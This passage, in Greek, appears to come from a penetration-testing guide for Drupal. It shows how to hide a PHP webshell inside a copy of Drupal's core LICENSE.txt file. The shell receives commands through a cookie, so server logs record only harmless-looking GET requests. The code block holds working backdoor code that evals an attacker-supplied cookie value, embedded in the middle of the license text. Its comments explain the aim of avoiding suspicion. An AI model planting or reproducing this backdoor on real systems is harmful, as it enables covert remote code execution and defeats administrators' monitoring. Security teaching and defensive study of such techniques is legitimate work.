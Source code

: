 Επειδή μόλις το Webshell (που θα ονομάσουμε LICENSE.txt) τοποθετηθεί στον Web server, μπορούμε να μεταδώσουμε τις εντολές μας μέσω `$_COOKIE` και στα αρχεία καταγραφής του Web server, αυτό θα εμφανιστεί ως ένα νόμιμο GET αίτημα σε ένα αρχείο κειμένου.

Γιατί να ονομάσουμε το Webshell μας LICENSE.txt;

Απλά επειδή αν πάρουμε το παρακάτω αρχείο, για παράδειγμα [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (το οποίο είναι ήδη παρόν στον πυρήνα του Drupal), έχουμε ένα αρχείο 339 γραμμών και 17.6 KB σε μέγεθος, το οποίο είναι τέλειο για να προσθέσουμε ένα μικρό απόσπασμα κώδικα PHP στη μέση (καθώς το αρχείο είναι αρκετά μεγάλο).

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αρχείο: Διορθωμένο LICENSE.txt
```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
} else {
phpinfo();
}
}

?>

10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...
```